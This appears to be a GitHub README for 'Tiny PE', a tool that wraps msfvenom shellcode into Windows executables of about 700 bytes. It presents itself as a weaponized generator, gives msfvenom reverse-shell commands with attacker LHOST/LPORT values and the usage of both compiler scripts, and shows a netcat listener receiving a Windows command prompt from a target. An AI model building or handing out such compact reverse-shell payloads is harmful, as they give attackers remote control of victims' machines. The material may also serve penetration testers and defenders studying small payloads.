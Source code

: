 # Tiny PE

Small PE reverse shell generator.
Generates a very small (~700 bytes) reverse shells/shellcodes/payloads packed into .exe PE file.


## General presentation

Typical executable payloads generated by msfvenom are about 70kb, and even packed with tools
such as UPX they remain at around 48kb, at least at the time I started this project.

However in some situation, it is interesting to have a PE executable file as small as possible.

This tools leverages on [some research](http://www.phreedom.org/research/tinype/) (done by others and found on internet) about generating
the smallest PE file as possible.
The original project was about downloading and executing a payload through webdav.

I just weaponized this research into a tool that integrates an arbitrary shellcode 
typically generated by msfvenom, into these small PE files.

As an example, it is possible to obtain a reverse shell PE executable file of 681 bytes from
a msfvenom `windows/shell_reverse_tcp`, wich is 2 orders of magnitude below a typical PE generated directly by msfvenom.

### Stability

The executables I obtained seem to work quite well, but I had a few times where it didn't work.
If it doesn't work on the first try, it's worth trying a couple more times.


## Generic shellcode compiler

This tool "packs" a generic shellcode (typically generated by msfvenom) into a .exe PE file.
The produced executable will typically be around 700 bytes long.

### Usage

```
./generic-compiler.sh <MASM_SHELLCODE> <OUTPUT_EXE_FILE>
```

Arguments:
- `MASM_SHELLCODE`  : Shellcode in MASM format
                   Typically generated with msfvenom with a command of the form
                   `msfvenom -p windows/<PAYLOAD> <OPTIONS> -f masm -o shellcode.asm`
- `OUTPUT_EXE_FILE`  : Ouput filename for PE .exe file

### Example

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.11 LPORT=4444 -f masm -o shellcode.asm
./generic-compiler.sh shellcode.asm shellcode.exe
```


## Revshell-compiler 

This tool was the first version of this project.
A hardcoded reverse shell is in the ASM source and the compiler script just replace
the `LHOST` and `LPORT` parameters by those supplied by the user.

It is here for "historical" reasons and does not have a a great interest compared to 
the generic shellcode compiler presented above, unless you have no msfvenom or reverse shell 
source code at hand.

### Usage

```
revshell-compiler.sh <OUTPUTFILE> <LHOST> <LPORT
```
Arguments:
- `OUTPUTFILE` : .exe output file
- `LHOST` : Attacker IP address to receive reverse shell
- `LPORT` : Listening port to receive reverse shell

### Example

```
$ ./revshell-compiler.sh rs.exe 172.16.19.247 5432
Compiling template for 172.16.19.247:5432 to rs.asm.
0x38150002 0xf71310ac
PE reverse shell exported to rs.exe.
Size: 739 bytes.

$ nc -nlvp 5432
listening on [any] 5432 ...
connect to [172.16.19.247] from (UNKNOWN) [172.16.19.244] 62455
Microsoft Windows [Version 10.0.19045.3803]
(c) Microsoft Corporation. All rights reserved.

C:\tinype>
```
